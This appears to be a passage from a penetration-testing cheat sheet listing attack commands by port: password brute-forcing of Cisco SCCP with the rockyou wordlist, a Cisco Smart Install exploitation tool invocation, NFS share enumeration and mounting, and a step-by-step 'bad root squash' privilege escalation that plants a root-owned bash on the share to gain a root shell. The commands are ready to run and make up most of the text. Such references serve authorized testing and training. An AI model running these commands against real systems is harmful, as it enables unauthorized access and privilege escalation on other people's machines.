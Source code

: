 ## 2000 - Cisco SCCP

[cisco-auditing-tool](https://www.kali.org/tools/cisco-auditing-tool/)

```
#CAT -h ip -p 2000 -w /usr/share/wordlists/rockyou.txt 
```

[Cisco Smart Install exploitation tool](https://github.com/frostbits-security/SIET)

```
sudo python siet.py -g -i 192.168.0.1
```

## 2049 - NFS

{% tabs %}
{% tab title="Enumeration" %}
```
#showmount -e hostname/ip
#mount -t nfs [ip]:/directory_found /local_mount_point
```
{% endtab %}

{% tab title="Mounting" %}
```
#mkdir /tmp/mount
#sudo mount -t nfs [IP]:[share] /tmp/mount/ -nolock
```


{% endtab %}

{% tab title="Root Squashing Attack" %}
### Check

* Root squashing - check for creation of SUID files

### Attack - Bad Root Squash

* NFS Access ->
* Gain Low Privilege Shell ->
* Upload Bash Executable to the NFS share ->

```
#cp /bin/bash /tmp/mount/mount
#cd /tmp/mount/mount
#sudo chown root bash
#sudo chmod 777 bash
```

* Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->
* Login through SSH ->
* Execute SUID Bit Bash Executable -> # ./bash -p
* ROOT ACCESS
{% endtab %}
{% endtabs %}
